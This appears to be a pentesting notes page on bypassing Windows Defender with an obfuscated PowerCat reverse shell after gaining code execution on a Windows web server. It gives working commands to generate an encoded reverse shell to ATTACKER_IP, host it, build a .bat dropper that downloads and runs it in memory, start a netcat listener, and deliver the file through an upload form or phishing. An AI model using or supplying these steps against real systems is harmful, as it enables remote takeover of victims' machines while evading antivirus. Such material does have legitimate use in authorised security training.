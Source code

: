 # Shells for AV Bypass



## Powershell obfuscation with Netcat - Windows Defender

**Windows Web Server machine**

The scenario is that we found a RCE on a web application hosted by a Windows Server, but when we try to establesh a reverse shell, nothing happen... The reason is probably because that Windows Machine has the AV enabled, in this case Windows Defender.

### Create and Host PowerCat RevShell encoded

The first step is create a file with a obfuscated Powershell command which will establish the Rev Shell on the our Kali machine. \
To do this we will use the PowerCat library, that allow us to encode a rev shell in a way to bypass Windows Defender.

{% code overflow="wrap" %}
```bash
LHOST=ATTACKER_IP # ATTACKER MACHINE IP
LPORT=ATTACKER_PORT # ATTACKER MACHINE PORT WHERE LISTENER IS SET UP
rshell=shell.txt  # NAME OF THE FILE
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /tmp/$rshell
```
{% endcode %}

The command above will generate a file into /tmp directory with the reverse shell encoded using PowerCat.

<figure><img src="../../../../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>

When we have created the encoded file we have to host it in a simple Http server.

```bash
python3 -m http.server 80 --directory /tmp
```

### Create Bat file to run the RevShell

Create a file to execute that will call the reverse shell script.

This Bat file includes PowerShell one liner to **Download** and **Execute** the encode Powercat code in RAM.

{% code overflow="wrap" %}
```bash
LHOST=ATTACKER_IP # ATTACKER MACHINE IP
LPORT_web=80 # ATTACKER MACHINE PORT WHERE HTTP FILE SERVER IS HOSTED
rshell=shell.txt
echo START /B powershell -c "\$code=(New-Object System.Net.Webclient).DownloadString('http://${LHOST}:${LPORT_web}/${rshell}');iex 'powershell -E \$code'" >/tmp/backup.bat
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure>



### Set Up the listener

Start the NetCat listener on the configured port in reverse shell file.

```bash
rlwrap nc -nlvp 4444
```

### Execute the file

Now we have to make a way to running the Bat file from Target machine. For example, uploading the file through web vulnerability or via Phishing.

In this case we have a Form which we know that any files uploaded will be read and open by a operator.

<figure><img src="../../../../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>





